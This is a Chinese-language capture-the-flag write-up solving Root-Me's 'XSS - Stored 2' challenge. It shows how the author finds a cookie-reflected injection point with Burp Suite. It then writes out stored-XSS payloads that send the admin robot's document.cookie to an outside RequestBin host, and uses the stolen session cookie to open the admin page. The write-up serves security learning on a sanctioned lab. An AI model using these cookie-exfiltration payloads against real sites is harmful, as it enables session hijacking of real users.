 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-client/xss-stored-2/)]

------

很直白告诉了告诉了我们是存储型 XSS 题型。注意题目要求：

`Steal the administrator session's cookie and go in the admin section.`

意思就是：**窃取 administrator 的 cookie 并使用它打开 admin 的 section 区域页面**。

注意到在挑战页面顶部有个 `admin` 超链，点击后 URL 多了个请求参数 `?section=admin` ， 但是页面内容无变化，猜测这就是需要使用 administrator 的 cookie 才能访问的页面。

------------


挑战页面有两个输入口，但是测试过，这两个输入框都对所有 html 标签字符做了过滤，无法注入。

仔细观察，发现提交输入后，页面会回显 3 个内容：

- 输入的 Title
- 输入的 Content
- 右上角的 Status 值（**似乎固定为 invite？其实不然！**）

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/01.png)

> 多刷新几次页面，不难注意到这台靶机后台有个 admin-robot 在定时读取提交的消息。

------------

打开浏览器开发者工具：

- 切到 Network 查看页面cookie ，发现 `status=invite` 是其中一个  cookie 值（另一个是当前用户的 `uid`）。
- 切到 Elements  查看提交回显的内容，发现 `invite` 是 &lt;i&gt; 标签的 class 值

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/02.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/03.png)


------------

使用 Burp Suite -> Repeater 任意修改 cookie 的 `status` 值后再发送请求，发现回显的内容中的 &lt;i&gt; 标签的 class 值也随之改变，说明**这就是 XSS 注入点**。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/04.png)


------------

尝试构造 payloads ： `"><script>alert(1)</script>` （关闭 &lt;i&gt; 标签再注入 &lt;script&gt;）

通过 Burp Suite -> Repeater 提交，页面弹出警告对话框，注入成功。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/05.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/06.png)

------------

至此思路很明确了：通过 cookie 把包含 payloads 消息存储到后台，当 admin-robot 读取到这条消息时，就把这个机器人的 cookie 发送到我们的指定的一台服务器，实现 Cookie 窃取。

假设我们已经搭建了一台服务器 `${HOST}` ，那么构造一个这样的 payloads 即可实现 cookie 窃取：

`"><script>document.write(%22<img src=${HOST}?%22.concat(document.cookie).concat(%22 />%22))</script>`

其中对于 `${HOST}` 服务器，推荐使用 [RequestBin](https://requestbin.fullcontact.com/) 生成的临时 HTTP 服务器。例如你生成的 HTTP 服务的临时 URL 为 `http://requestbin.fullcontact.com/q9vld7q9`，则把 payloads 修改为：

`"><script>document.write(%22<img src=http://requestbin.fullcontact.com/q9vld7q9?%22.concat(document.cookie).concat(%22 />%22))</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/07.png)

------------

提交 payloads 后，好不容易等到  admin-robot 读取了消息，但是在 HTTP 服务器查看  admin-robot 发送过来的请求却发现，cookie 只有 `status` 参数，缺失了最重要的 `uid` 参数。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/08.png)


------------


其实从 Burp Suite -> Repeater 可以发现， cookie 本来完整的值是这样的（`status` 和 `uid` 之间有**空格**）：

`status=invite; uid=wKgbZFxF4fV0HH+nA2kGAg==`

导致构造前面的 payloads 提交后， 因为这个空格使得 cookie 被拆解成两部分：

- 前半部分的 `status` 作为 &lt;img&gt; 标签的 `src` 属性被提交到 HTTP 服务器
- 后半部分的 `uid` 则成为 &lt;img&gt; 标签的一个独立属性

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/09.png)


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/10.png)

------------

因此，为了把 `uid` 的值也窃取，需要把 payloads 做了小改动，即把 `document.cookie` 的空格处理掉。

在这里我把空格替换成 `&` ，最终 payloads 如下：

`"><script>document.write(%22<img src=${HOST}?%22.concat(document.cookie.replace(%22 %22,%22&%22)).concat(%22 />%22))</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/11.png)

------------


提交后成功从 HTTP 服务器收到 `ADMIN_COOKIE` ：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/12.png)

------------

但是注意不要急着完成挑战，因为这并不是密码，题目要求的是： **窃取 administrator 的 cookie 并使用它打开 admin 的 section 区域页面**。

把从 HTTP 服务器收到的 cookie 的 `&` 改回去空格，得到真正的  cookie 值：

`status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F`

将其修改到 Burp Suite -> Repeater 的请求 Cookie 后访问页面：

`http://challenge01.root-me.org/web-client/ch19/?section=admin`

得到密码，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B15%5D%20%5B50P%5D%20XSS%20-%20Stored%202/imgs/13.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

